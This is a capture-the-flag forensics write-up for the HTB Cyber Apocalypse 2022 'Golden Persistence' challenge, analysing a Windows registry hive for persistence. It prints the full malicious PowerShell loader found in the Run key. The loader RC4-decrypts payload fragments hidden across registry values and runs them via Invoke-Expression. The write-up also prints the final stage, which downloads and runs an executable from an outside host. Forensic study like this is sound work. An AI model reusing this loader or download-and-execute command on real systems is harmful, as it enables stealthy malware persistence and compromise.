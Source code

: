 ```yaml
---
title: "HTB Cyber Apocalypse CTF 2022"
categories: [Writeups]
layout: post 
---
```


# HTB Cyber Apocalypse CTF 2022 Writeups

## Team Placing: #99 / 7024

![](/assets/img/writeups/HTBCyberApocalypse2022/certificate.jpg)

## Categories
* ### Forensics
    * #### [Golden Persistence](#challenge-golden-persistence)

-------------------------------------------------------------------------------

### Challenge: Golden Persistence
### Category: Forensics

## Description:

![](/assets/img/writeups/HTBCyberApocalypse2022/forensics_golden_persistence.png)

## Walkthrough:

We're provided a `NTUSER.DAT` file which contains the `HKEY_CURRENT_USER` registry hive in Windows. Based off the challenge title and description, we know we're looking for some persistence within the registry. One of the most common mechanisms for persistence within the registry is by using the `Run` registry key which is used to run a program every time a user logs on.

So we can use a tool from Eric Zimmerman called [Registry Explorer](https://ericzimmerman.github.io/#!index.md) to easily view the registry hive mentioned before. The `Run` registry key is located in `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` so let's check that out first:

![](/assets/img/writeups/HTBCyberApocalypse2022/Golden%20Persistence%20Writeup.001.png)

We can quickly see that there is a PowerShell payload which appears to be Base64 encoded. We can use CyberChef to quickly decode this and save to a file called `stage2.ps1`:
```powershell
function encr {
    param(
        [Byte[]]$data,
        [Byte[]]$key
      )
 
    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)
    
    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;
 
    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }
 
    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }
 
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }
 
    return $buffer
}


function HexToBin {
    param(
    [Parameter(
        Position=0, 
        Mandatory=$true, 
        ValueFromPipeline=$true)
    ]   
    [string]$s)
    $return = @()
    
    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }
    
    Write-Output $return
}

[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

To summarize the script, it grabs the values within other registry keys in the hive and concatenates them:
```powershell
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
```

It then hex decodes these strings using the defined `HexToBin` function:
```powershell
[Byte[]]$data = HexToBin $encrypted
```

Finally, it decrypts these bytes using the defined `encr` function and executes the decrypted string using `iex` [(Invoke-Expression)](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2)

```powershell
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

Now that we have an idea of what is occurring, let's grab those hex strings I mentioned from the registry. Registry Explorer has a handy search feature which makes this easy:

![](/assets/img/writeups/HTBCyberApocalypse2022/Golden%20Persistence%20Writeup.002.png)

After grabbing the hex strings, now we can just make the script work for us by replacing the encrypted variables with the correct hex string and ensuring we comment out the `iex` so we do not actually execute the potentially malicious payload:

```powershell
# $encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted1 = "F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39"
#$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted2 = "CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1"
#$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted3 = "C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D"
#$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted4 = "D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1"
#$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted5 = "84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB"
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString#|iex
```

Running the `stage2.ps1` script, we get even more PowerShell code:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";$exists = Test-Path -Path $path -PathType Leaf;if ( $exists ){Start-Process $path}else{mkdir "C:\ProgramData\windows";Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;$flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";Start-Process $path}
```

And here it is cleaned up a bit:

```powershell
$path ="C:\ProgramData\windows\goldenf.exe";
$exists = Test-Path -Path $path -PathType Leaf;
if ( $exists ){
    Start-Process $path
}else{
    mkdir "C:\ProgramData\windows";
    Invoke-WebRequest -Uri https://thoccarthmercenaries.edu.tho/wp-content/goldenf.exe -OutFile $path;
    $flag="HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}";
    Start-Process $path
}
```

We can see the script checks to see if `goldenf.exe` exists at the specified path, if it does it will simply execute- otherwise it will download the executable and then execute. 

And there's also our flag!

### Flag: HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}